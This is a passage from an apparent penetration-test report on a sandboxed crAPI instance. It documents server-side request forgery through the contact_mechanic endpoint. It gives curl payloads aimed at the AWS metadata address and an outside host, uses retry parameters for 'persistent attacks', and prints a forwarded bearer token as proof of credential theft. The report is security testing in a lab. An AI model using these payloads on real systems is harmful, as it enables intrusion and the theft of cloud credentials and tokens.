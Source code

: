 4. **Demonstrate cloud metadata service access (shows network boundary bypass):**
   ```bash
   curl -X POST "https://crapi.sandbox.local:8888/workshop/api/merchant/contact_mechanic" \
     -H "Content-Type: application/json" \
     -H "Authorization: Bearer [JWT_TOKEN]" \
     -d '{
       "mechanic_api": "http://169.254.169.254/latest/meta-data/"
     }'
   ```

5. **Demonstrate retry mechanism for persistent attacks:**
   ```bash
   curl -X POST "https://crapi.sandbox.local:8888/workshop/api/merchant/contact_mechanic" \
     -H "Content-Type: application/json" \
     -H "Authorization: Bearer [JWT_TOKEN]" \
     -d '{
       "mechanic_api": "http://httpbin.org/status/200",
       "repeat_request_if_failed": true,
       "number_of_repeats": 5
     }'
   ```

**Proof of Impact:**

1. **Complete SSRF Exploitation:** Successfully forced the server to make outbound HTTP requests to attacker-controlled URLs
2. **Authorization Header Forwarding:** JWT token was forwarded to external service, demonstrating credential theft capability:
   ```json
   {
     "response_from_mechanic_api": {
       "headers": {
         "Authorization": "Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJzc3JmdGVzdF91bmlxdWVfMjAyNEBleGFtcGxlLmNvbSIsImlhdCI6MTc1ODY1NTE2OSwiZXhwIjoxNzU5MjU5OTY5LCJyb2xlIjoidXNlciJ9.G1b01ATcwCP_jqEYYiL4QqIizklykmJP75DMmq5QwPKgZAn5hcjVgpNwUMkyrsKavHqTcpIfsZsNQOw455edxuvRZcUiOpzxJxJRE7XWKGlXolXQ2HOJjBbnSu3Ut8nz-iJXJNduMrJiyTneSDx_npPAb8VnE-e84FMogrfPf8_F_nrq10y_5g5RnN_J2nmHrCiqASts49QwWxMFqTfhvHVrss78IioHjnw86oQ1px0xscbYf7DVRYhref9Nm_4yxSgc744z1dJHuOg8zpHiaVAGyIs4tljBOaE4yyHhOunmE3j5JcgfGhrEflvnACNMQpkwn07m09KahjD65uPrJw",
         "Host": "httpbin.org",
         "User-Agent": "python-requests/2.30.0"
       },
       "origin": "18.236.247.3",
       "url": "http://httpbin.org/get?mechanic_api=http%3A%2F%2Fhttpbin.org%2Fget&message=SSRF+test&repeat_request_if_failed=False&number_of_repeats=1"
     },
     "status": 200
   }
   ```
3. **Cloud Metadata Access:** Successfully accessed AWS metadata service endpoints (returned 401 indicating service was reached but authentication required)
4. **Network Boundary Bypass:** Demonstrated ability to access internal network resources and cloud services from external network position
5. **Retry Mechanism:** Confirmed up to 100 request retries are supported for persistent attacks

